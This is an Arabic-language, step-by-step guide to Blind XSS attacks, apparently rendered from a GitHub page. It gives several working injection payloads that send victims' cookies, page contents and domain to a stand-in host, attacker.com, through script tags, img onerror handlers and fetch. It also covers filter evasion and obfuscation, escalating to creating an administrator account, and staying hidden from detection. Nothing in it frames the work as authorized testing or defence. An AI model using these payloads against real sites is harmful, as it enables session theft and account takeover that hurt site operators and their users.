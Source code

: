 { #XSS_exploit }
## الخطوات العملية للحقن المستخدمة في Blind XSS
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة الطلبات الصادرة، رغم أن التنفيذ قد يحدث في سياقات داخلية.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو خدمة مثل `ngrok`) لتسجيل البيانات المستلمة من الحقن.
   - افتح أدوات المطورين في المتصفح (F12) لاختبار الحقن محليًا إذا أمكن، وتحديد نقاط الإدخال المحتملة.
   - حدد نقاط الإدخال التي قد تُعالج في سياقات داخلية (مثل حقول التعليقات، نماذج التقارير، أو رسائل الدعم).

2. **تحديد نقاط الإدخال العرضة**:
   - ابحث عن حقول أو معلمات تُرسل إلى أنظمة داخلية، مثل:
     - حقول التعليقات أو الملاحظات.
     - نماذج الدعم أو الشكاوى.
     - معلمات URL التي تُسجل في قواعد البيانات.
   - افحص استجابات الموقع (عبر Burp Suite أو عرض المصدر) لتحديد ما إذا كانت البيانات تُعرض دون تنظيف في سياقات أخرى.
   - تحقق من السياقات التي قد يراها المشرفون (مثل لوحة تحكم، سجلات المستخدم، أو تقارير البيانات).

3. **إدخال الحقن**:
   - أدخل شيفرة JavaScript في نقطة الإدخال العرضة لتُنفذ في سياق داخلي.
   - صمم الحقنة لتكون مخفية وترسل البيانات إلى خادمك، مثل:
     - `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
     - `<img src="http://attacker.com/log?d=document.domain">`
   - جرب الحقن في سياقات مختلفة:
     - حقول تعليق: أدخل `<script>new Image().src='http://attacker.com/log?c='+document.cookie</script>` في حقل تعليق.
     - معلمات URL: `https://example.com/?comment=<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
     - نماذج دعم: أدخل `<img src=x onerror=fetch('http://attacker.com/log?c='+document.cookie)>` في رسالة دعم.

4. **مراقبة الاستجابات**:
   - تحقق من خادمك الخارجي لتأكيد استلام البيانات:
     - **نجاح (True)**: البيانات (مثل ملفات تعريف الارتباط، النطاق، أو محتوى الصفحة) تظهر في سجلات الخادم.
     - **فشل (False)**: لا تصل بيانات، مما قد يعني عدم تنفيذ الحقنة أو حظرها (مثل بسبب CSP).
   - استخدم أدوات مثل Burp Suite أو سجلات الخادم لتحليل الطلبات الواردة.
   - انتظر فترة (قد تستغرق ساعات أو أيام) حتى يراجع المشرف أو النظام البيانات المُدخلة.

5. **تجربة أنواع حقن مختلفة**:
   - إذا لم تصل بيانات، جرب أنواع حقن أخرى:
     - استخدام طرق إرسال مختلفة: `<img src>`، `fetch`، `WebSocket`، أو `navigator.sendBeacon`.
     - استهداف بيانات مختلفة: `document.cookie`، `document.body.innerHTML`، `localStorage`، أو `document.domain`.
     - تجنب الفلاتر: استخدم صيغ بديلة مثل `<img src=x onerror=...>` بدلاً من `<script>` إذا تم تصفية الوسوم.
   - اختبر نقاط إدخال متعددة (مثل حقول نماذج أخرى، رسائل الدعم، أو معلمات URL إضافية).
   - جرب حقنًا مع تعتيم (مثل تشفير Base64) لتجاوز فلاتر الإدخال.

6. **تأكيد السياق وتصعيد الهجوم (اختياري)**:
   - استخدم حقن تكشف سياق التنفيذ (مثل `<script>fetch('http://attacker.com/log?d='+document.domain)</script>` لمعرفة النطاق).
   - إذا نجحت الحقن، جرب استخراج بيانات حساسة أخرى (مثل `localStorage.getItem('token')` أو محتوى لوحة الإدارة).
   - قم بتصعيد الهجوم (مثل إنشاء حساب مشرف أو تعديل إعدادات) إذا سمحت البيانات المستخرجة.
   - حافظ على التخفي لتجنب الكشف (مثل تجنب التغييرات البصرية أو التنبيهات).

---